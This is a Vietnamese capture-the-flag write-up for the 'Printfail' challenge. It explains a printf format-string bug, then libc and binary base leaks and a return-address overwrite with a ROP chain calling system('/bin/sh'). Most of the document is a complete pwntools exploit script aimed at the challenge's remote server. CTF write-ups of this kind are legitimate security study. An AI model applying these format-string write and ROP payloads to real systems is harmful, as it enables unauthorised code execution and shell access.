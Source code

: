 ### Printfail
- Đề cho ta một file binary duy nhất
- Vậy ta decompile bằng ida

![](https://i.imgur.com/NVH3ncR.png)

- Ta vào hàm `run_round` thì thấy nó sẽ update biến `v4` thành False nếu như chuỗi ta nhập lớn hơn 1. Ngoài ra cũng có lỗi format string ở `printf`.

![](https://i.imgur.com/gaBZYaB.png)

- Do đó ta sẽ lợi dụng fmt để write biến v1 lại là 1 như bình thường để loop tiếp.
- Ta checksec thì nhận thấy bài này full protections do đó overwrite GOT không khả thi. Do đó ta có hướng overwrite return address của main thành một loạt rop gadgets để lấy shell.
- Để thực hiện ý tưởng trên thì ta phải leak libc, leak exe để tính base.
- Tổng kết lại hướng làm của mình : leak libc -> leak exe -> overwite return address thành rop chain

![](https://i.imgur.com/E6OGdTP.png)


- Trước system mình có thêm địa chỉ của ret vì khi nó call pop rdi xong lần ret về đầu tiên call system thì bị xmm1, nên mình thêm ret trước đó để align rsp stack chia hết cho 16

- Script (khá dài và mình lười tối ưu):
```python 
from pwn import * 

exe = ELF("printfail_patched")

libc=ELF("libc6_2.31-0ubuntu9.9_amd64.so")

p=remote("puffer.utctf.live",4630)
p.sendlineafter(b'No do-overs.\n',b'A%7$n%13$llx')
p.recvuntil(b'A')
leak ='0x0000'+ p.recvline()[:-1].decode('utf-8')
leak = int(leak,16) 

libc.address = leak - 147587 
print('libc base: ',hex(libc.address))

p.sendlineafter(b'chance.\n',b'A%7$n%9$llx')
p.recvuntil(b'A')
exe_leak ='0x0000'+ p.recvline()[:-1].decode('utf-8')
exe_leak = int(exe_leak,16) 

print("exe leak: ",hex(exe_leak))
exe.address = exe_leak - 4816 
print("exe base : ",hex(exe.address))

p.sendlineafter(b'chance.\n',b'A%7$n%15$llx')
p.recvuntil(b'A')
exe_off='0x0000'+ p.recvline()[:-1].decode('utf-8')
exe_off= int(exe_off,16) 
print("exe off: ",hex(exe_off))
################step1########################
first_add = exe_off-240
log.info(hex(first_add))

writee = first_add & 0xffff

payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
pop_rdi_ret = exe.address + 0x0000000000001373
print("pop_rdi_ret: ",hex(pop_rdi_ret))
writee = pop_rdi_ret& 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()

p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = pop_rdi_ret >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = pop_rdi_ret >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
print("pop rdi :",hex(pop_rdi_ret))
###############step2#####################
buf_add = exe.address + 0x0000000000004040

first_add = exe_off - 232
writee = first_add & 0xffff
print("write : ",hex(writee))
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

writee = buf_add & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = buf_add >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = buf_add >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
####################step3##################
libc_system = libc.sym['system'] 
print("libc: ",libc_system)

first_add = exe_off - 216 

writee = first_add & 0xffff
print("write : ",hex(writee))
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

writee = libc_system& 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = libc_system >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = libc_system >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
###############################################
buf_add = exe.address + 0x000000000000101a 
first_add = exe_off - 224

writee = first_add & 0xffff
print("write : ",hex(writee))
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

writee = buf_add & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = buf_add >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = buf_add >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
############################################
p.sendlineafter(b'chance.\n',b'/bin/sh\x00')
###########################################
p.interactive()

```
